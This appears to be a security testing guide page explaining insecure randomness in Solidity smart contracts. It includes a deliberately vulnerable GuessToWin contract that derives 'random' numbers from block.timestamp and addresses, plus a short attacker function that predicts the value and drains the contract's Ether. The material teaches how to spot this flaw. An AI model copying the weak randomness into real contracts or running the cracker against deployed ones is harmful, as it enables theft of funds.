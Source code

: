 # Insecure Randomness

## Summary

Randomness sometimes is used as a deciding factor in smart contract, sometime it is also used as an additional args to create an identifier, but not all randomness is actually secure. Some are predictable and resulting someone to gain unfair advantages.

## Test Objectives

- Ensure source of randomness is truly random.

## How to Test

There are many factors and attributes that people usually use for creating randomness, some of them are not secure

1. **`block` global variables**
The `block` global variable is used to get the blockchain information, like the `number`, `hash`, `timestamp`, `difficulty`, etc. Using them as a source of randomness is not secure because they are easy to predict.

2. **The `abi.encodePacked()` Custom**
Most of the time, the `block` global variables will be combined using many other args like the `msg.sender` or even another `block` attributes. Funny enough, it will then be hashed using `keccak256` then typecast to `uint256` to get a random number, which of couse not that random if the attacker can get the attributes.

## Examples

Let's use a simple contract here to demonstrate the danger of insecure randomness, supose there is a smart contract that using the randomness to call a function that will give the one who answer the function correctly a huge amount of Ether

```solidity
contract GuessToWin{

    constructor() payable{
        require(msg.value == 10000 ether);
    }

    function guess(uint _guess) public{
        require(address(this).balance == 10000 ether);
        uint random = uint(keccak256(abi.encodePacked(
            block.timestamp, 
            msg.sender,
            address(this) 
        )));
        if (_guess == random){
            (bool sent, ) = msg.sender.call{value: address(this).balance}("");
            require(sent);
        }
    }
}
```

the source of randomness comes from 3 sources, the `block.timestamp`, the address of `msg.sender` and the address of the `GuessToWin` contract, which all of them are easy to predict. A simple attack contract with a function like this could crack the random and get all the prize money

```solidity
function cracker() public{
    uint answer = uint(keccak256(abi.encodePacked(
        block.timestamp,
        address(this),
        address(GTW)
    )));
    GTW.guess(answer);
}
```

## References

- [Common Vulnerabilities in Solidity: Randomness](https://www.slowmist.com/articles/solidity-security/Common-Vulnerabilities-in-Solidity-Randomness.html)
- [SC08-Insecure Randomness](https://owasp.org/www-project-smart-contract-top-10/2023/en/src/SC08-insecure-randomness.html)
- [Preventing the source of randomness vulnerability](https://www.infuy.com/blog/preventing-the-source-of-randomness-vulnerability/)